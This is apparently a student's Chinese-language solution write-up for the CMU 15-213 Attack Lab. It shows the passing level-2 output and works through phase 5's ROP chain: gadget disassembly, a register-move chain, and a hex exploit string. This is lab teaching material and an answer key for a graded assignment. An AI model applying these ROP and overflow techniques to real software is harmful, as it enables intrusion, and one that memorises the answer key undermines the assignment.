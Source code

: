 ```common
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 FF FF FF FF FF FF FF FF
```
#### phase_5
这一部分的实验中则要求用ROP去完成phase_3，显然类似于当时的情况我们需要考虑存储的位置，然后把这个地址值赋给rdi,其实是和phase_4差不多的，只是我们把cookie换成了存储cookie的地址。但因为栈随机化技术，我们无法像phase_3中那样直接写入这个地址，于是我们需要想想办法。
我们注意到因为我们输入的字符串是可以控制的，那么我们存放字符串的位置相对于栈地址的偏移则是可以算出来的，既然如此我们可以先拿到%rsp,然后加上偏移地址得到字符串地址，接下来的就和phase_3一样了，只是需要采用ROP.这一次我们从start_farm看到end_farm。
```asm
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq
```
这一个片段中的48 89 e0可以实现mov %rsp,%rax的功能，因为要进行计算我们发现了这样一串有意思的片段
```asm
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq
```
这一串的意思是吧%rsi和%rdi加起来送到%rax中去,那么我们想到能不能把%rsp送到%rsi或者%rdi中，然后把偏移值送到另一个寄存器中，这样我们再去找找有没有把%rax送到%rdi中的指令.而根据前一个实验我们知道
```asm
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq
```
其中的48 89 c7能实现mov %rax,%rdi的功能,那么我们这个思路就是有实现可能的。我们先把%rsp送到%rax中，再把%rax送到%rdi中，这样就实现了把%rsp送到%rdi中的功能，于是我们只需要再把偏移值写到我们的字符串中，通过pop %rsi送到%rsi中，然后调用add_xy即可算出。于是我们再去寻找pop %rsi,但却一无所获，于是我们只能通过一些其他办法实现。我们将整个farm中所有可能的mov操作都列举出来，方便查看
```asm
00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq
```
89 c2实现了mov %eax,%edx
```asm
0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq
```
89 ce实现了％ecx,%esi
```asm
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq
```
89 d1实现了mov %edx,%ecx，而后面的38 c9则是cmp指令，不改变值。到此，似乎我们已经可以实现我们想要的操作了，整理一下:
我们现在需要将偏移值送到%rsi中，首先通过pop %rax送到%rax中，然后通过mov %eax,%edx送到%edx中，然后通过mov %edx,%ecx送到%ecx中，最后通过mov %ecx,%esi送到%esi中，这里我们注意到偏移值在32位表示范围之内，所以我们这个思路应该是可以实现的。至于偏移值到底是多少，不如先留空最后再做决定，于是我们先得到这样一个字符串(hex2raw之前的):
```txt
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff ab 19 40 00 00 00 00 00
00 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00
#rsp->06 1a 40 00 00 00 00 00 a2 19 40 00 00 00 00 00
```